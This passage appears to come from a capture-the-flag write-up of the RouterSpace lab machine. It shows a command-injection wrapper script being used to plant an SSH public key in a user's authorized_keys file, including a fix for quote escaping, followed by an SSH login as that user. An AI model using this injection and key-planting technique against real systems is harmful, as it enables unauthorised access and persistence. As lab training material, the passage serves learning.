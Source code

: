 ```

oxdf@hacky$ ./rce.sh 'ls -a /home/paul/.ssh'
. ..

```

I’ll try adding my public key to an `authorized_keys` file:

```

oxdf@hacky$ ./rce.sh 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/paul/.ssh/authorized_keys'
parse error: Invalid numeric literal at line 1, column 10

```

If I check Burp, the request looks like this, and I can see the `"` are messing things up:

![image-20220625171627925](https://0xdfimages.gitlab.io/img/image-20220625171627925.png)

Sending again with the `"` escaped solves it:

```

oxdf@hacky$ ./rce.sh 'echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /home/paul/.ssh/authorized_keys'

```

### SSH

I can connect as paul:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen paul@10.10.11.148
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)
...[snip]...
Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
paul@routerspace:~$ 

```

## Shell as root

### Enumeration

#### Manual

There’s not much of interesting in paul’s home directory, and paul is the only home directory in `/home`.

`/opt/www/public/routerspace` has the web server. It’s an unusual space, but not much interesting there.
